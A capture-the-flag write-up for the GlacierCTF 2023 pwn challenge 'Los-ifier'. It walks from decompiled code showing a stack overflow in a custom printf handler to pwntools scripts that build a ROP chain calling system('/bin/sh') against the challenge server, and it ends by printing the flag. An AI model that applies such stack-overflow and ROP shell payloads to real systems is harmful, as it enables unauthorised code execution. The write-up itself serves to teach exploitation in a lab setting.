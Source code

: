 ```yaml
---
title: Los-ifier
date: 2023-11-24T20:00:00+02:00
description: Writeup for Los-ifier [GlacierCTF 2023]
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

Normal binary for normal people.

## Intuition 


First we run a checksec and a file on the binary and we can see that it's statically linked and that it lacks PIE. 
When first opening the binary in Ghidra we see a simple main function with nothing special, we can also observe that there is a function named setup() called, let's investigate. When opening the function, there is an interesting call made : register_printf_specifier(0x73,printf_handler,printf_arginfo_size). What this actually does is handling the %s fromat  specifier from the printf() function, let's see how the printf is handled in the printf_handler function. We observe another weird function, named loscopy() which takes three parameters. The first one is the address of local_58 + 3, the second one is our input and the last one is 10 ('\n'). Opening the loscopy function  we can see an overflow vulnerability inside of the while. 
 

 ```c
 undefined8 main(void)

{
  char local_108 [256];
  
  setup();
  fgets(local_108,0x100,(FILE *)stdin);
  printf("-> %s\n",local_108);
  return 0;
}

void setup(void)

{
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  register_printf_specifier(0x73,printf_handler,printf_arginfo_size);
  return;
}

size_t printf_handler(FILE *param_1,undefined8 param_2,undefined8 *param_3)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  size_t local_18;
  undefined8 local_10;
  
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_10 = *(undefined8 *)*param_3;
  local_58 = 0x736f4c;
  loscopy((long)&local_58 + 3,local_10,10);
  local_18 = strlen((char *)&local_58);
  fwrite(&local_58,1,local_18,param_1);
  return local_18;
}


void loscopy(char *param_1,char *param_2,char param_3)

{
  char *local_18;
  char *local_10;
  
  local_18 = param_2;
  local_10 = param_1;
  while (param_3 != *local_18) {
    *local_10 = *local_18;
    local_18 = local_18 + 1;
    local_10 = local_10 + 1;
  }
  return;
}

```
 
 ## Solution 
 
 Let's see what we can get from GDB, putting a breakpoint in the loscopy() function we can see that we can overwrite the __printf_function_invoke() with our input.  

```
[#0] 0x40182c → loscopy()
[#1] 0x4018d0 → printf_handler()
[#2] 0x43c3b7 → __printf_function_invoke()
[#3] 0x405672 → printf_positional()
[#4] 0x4072b7 → __printf_buffer()
[#5] 0x409181 → __vfprintf_internal()
[#6] 0x404d19 → printf()
[#7] 0x4019c6 → main()

gef➤  x/20g 0x00007fffffffc940
0x7fffffffc940: 0x00007fffffffc9c0      0x00000000004018d0
0x7fffffffc950: 0x0000000000000000      0x00007fffffffc9e0
0x7fffffffc960: 0x00007fffffffcc30      0x00007fffffffca00
0x7fffffffc970: 0x4141414141736f4c      0x4141414141414141
0x7fffffffc980: 0x0000414141414141      0x0000000000000000
0x7fffffffc990: 0x0000000000000000      0x0000000000000000
0x7fffffffc9a0: 0x0000000000000000      0x0000000000000000
0x7fffffffc9b0: 0x0000000000000000      0x00007fffffffdc00
0x7fffffffc9c0: 0x00007fffffffc9e0      0x000000000043c3b7
0x7fffffffc9d0: 0x0000000000000000      0x00007fffffffcc30
```


The question now is, with what do we overwrite the __printf_function_invoke() address. Remembering that it's statically linked we can craft a payload and invoke a shell. First we need to see how much padding there is needed  10*8+5 bytes. To create this exploit we use a small ROP chain (gadgets were found with ROPgadget) , first we need to put the “/bin/sh” address into RDI (system's argument register) and then we should return to system. Let's see if it works! 

Getting the addresses of system and /bin/sh:

```
gef➤  p system
$1 = {<text variable, no debug info>} 0x404ae0 <system>

gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/home/kali/CTF/Glacier/Losifier/Losifier/chall'(0x478000-0x4a0000), permission=r--
  0x478010 - 0x478017  →   "/bin/sh" 
  0x4784d9 - 0x4784e0  →   "/bin/sh" 
```


Initial payload:
```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)


p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```


Mhmm, it doesn't work, let's see why. The error we got is: stopped 0x4047c8 in do_system (), reason: SIGSEGV. The problem is that the stack should be aligned in 16-byte bounderies, to fix this, we use a ret gadget for padding (found with ROPGadget). So our final payload looks like this:

```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)

p += p64(0x000000000040101a) # ret for stack alignment 
p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```

## Flag 

Running the script we get:

```
$ python3 payload_clever.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Switching to interactive mode
$ ls
app
flag.txt
$ cat flag.txt
gctf{th1s_1s_th3_@riginol_fl@9}
```



